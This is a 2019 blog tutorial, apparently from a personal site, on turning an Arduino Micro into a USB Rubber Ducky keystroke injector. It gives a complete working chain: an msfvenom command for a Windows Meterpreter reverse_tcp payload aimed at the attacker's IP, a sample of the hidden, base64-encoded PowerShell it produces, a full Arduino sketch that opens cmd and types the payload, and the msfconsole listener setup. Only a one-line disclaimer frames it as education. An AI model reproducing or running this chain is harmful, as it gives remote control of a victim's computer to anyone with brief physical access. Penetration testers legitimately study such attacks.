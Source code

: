 ```yaml
---
title: "USB Rubber Ducky with Arduino Micro"
date: 17 March 2019
---
```


***DISCLAIMER:*** *This is merely a proof of concept for education purposes. Use it only against your own networks and devices!*

In this post I will show you how to open a [meterpreter backdoor](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/) in a target Windows system using a Arduino Micro acting as a HID keyboard. This attack vector was first developed by the [Hak5](https://shop.hak5.org) community, given the name [Rubber Ducky](https://github.com/hak5darren/USB-Rubber-Ducky/wiki). It basically exploits the fact that some micro-controllers have the capacity to act as a [HID](https://en.wikipedia.org/wiki/Human_interface_device), which you can use to send commands as if they were coming from a plugged in keyboard.

# Requirements

## Metasploit Framework

[Metasploit](https://www.metasploit.com) is a penetration testing framework which we will use to generate the payload, listen to the backdoor and spawn a meterpreter shell on the target system. The site provides various installers for OS X, Windows (32-bit) and Linux, I will be doing this on a Debian Linux system, but there is no reason why it wouldn't work on any other.

## Arduino Micro

[Arduino Micro](https://store.arduino.cc/usa/arduino-micro) is the smallest Arduino board using a micro-controller capable of HID simulation ([ATmega32U4](https://www.microchip.com/wwwproducts/ATmega32u4)) in our case. We will also use the Arduino IDE to program the board.

# Code

## msfvenom

First the will need to generate the things which the Arduino will "type". This will be a `reverse_tcp` payload delivered with a Powershell command. Once in `msfconsole`, you can type

```python
msfvenom -p windows/x64/meterpreter/reverse_tcp -f psh-cmd LPORT=4444 LHOST=YOUR_IP_ADDRESS -o rbr0
```

If the target Windows machine is in your local network, then replace `YOUR_IP_ADDRESS` with your local IP address. If the target machine is outside your network, then you will need to provide your global IP address (try `curl icanhazip.com`). However, this will also require [port forwarding](https://portforward.com) if you are behind a router. I am doing this on a [Google Cloud VM instance](https://cloud.google.com/compute/docs/instances/), so I simply had to setup a firewall rule to allow all incoming `tcp:4444` connections. This command will produce a file named `rbr` with a content similar to:

```c
%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -e aQBmACgAWwBJAG ...
```
This command is basically what will allow us to spawn a meterpreter shell in the target system. Now we will have to find a way to "type" it.

## Arduino

The Arduino [Keyboard](https://www.arduino.cc/reference/en/language/functions/usb/keyboard/) library allows one to "send keystrokes to an attached computer through their micro’s native USB port". So our job is to simply save the command as a string and then type it out. However, there is a subtle problem: the command is about 7KB's. The onboard SRAM memory storing the code variables on the ATmega32U4 only has a 2.5 KB capacity. This means we will have to use the onboard flash memory of 32 KB, since the command to be typed out doesn't change. The Arduino IDE provides the keyword [PROGMEM](https://www.arduino.cc/reference/en/language/variables/utilities/progmem/) for this. Data stored in this manner also has its own functions for access, so use caution.

The command is to be written on the Windows Command Prompt, so we will also have to send the keystrokes Windows(❖) + R then type `cmd` then press `ENTER` to get a `cmd` window.

Below is the Arduino sketch that I have come up with:

```Cpp
/*
 *    USB Rubber Ducky with Arduino Micro
 *    
 *    Provided the output of a psh-cmd from msfvenom, this code spawns a meterpreter session in the Windows target machine.
 *    The psh-cmd is stored in the FLASH memory, so the maximum command size is about 28KB in an Arduino Micro.
 *    The whole thing takes about 16 seconds to execute with a command of 7KB.
 *    
 *    Created 17 March 2019
 *    By Mirac L. Gulgonul
 *    
 *    https://mlg556.github.io
 *    
 *    This work is licensed under a Creative Commons Attribution-ShareAlike 3.0 Unported License
 *    https://creativecommons.org/licenses/by-sa/3.0/
 */

#include "Keyboard.h"

const char command[] PROGMEM = {}; // Array pre-allocation on the FLASH memory to store the command.
char chr; // Variable to store the current character of the command.

// The main method, initialises the Keyboard module, opens the Command Prompt and sends the command.
void setup() {
    Keyboard.begin();
    delay(500); // The minimum delay needed.
    cmdOpen();
    typer();
    Keyboard.write(KEY_RETURN);
}

// Does nothing
void loop() {}

// Sends the keystrokes of the psh-command by looping through every character and using Keyboard.write()
void typer() {
    for (int i = 0; i < strlen_P(command); i++) {
        chr = pgm_read_byte_near(command + i);
        Keyboard.write(chr);
    }
}

// Opens the command prompt: hitting Windows+R, typing "cmd" and pressing ENTER.
void cmdOpen() {
    Keyboard.press(KEY_LEFT_GUI);
    Keyboard.press('r');
    delay(30);
    Keyboard.releaseAll();
    delay(100);
    Keyboard.println("cmd");
    Keyboard.write(KEY_RETURN);
    delay(500);
}
```

## msfconsole

Now that the payload is ready to be "typed", we have to be listening to it. In `msfconsole`, type:

```ruby
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
run
```

Now that we are listening, you can finally insert your Arduino/Rubber Ducky to the target machine. If all goes well (my version takes about 16 seconds in total) you will be presented with a meterpreter session. Go crazy with it! (or type `help`).

# Downloads

[rubber.ino](files/rubber.ino)

$\space$
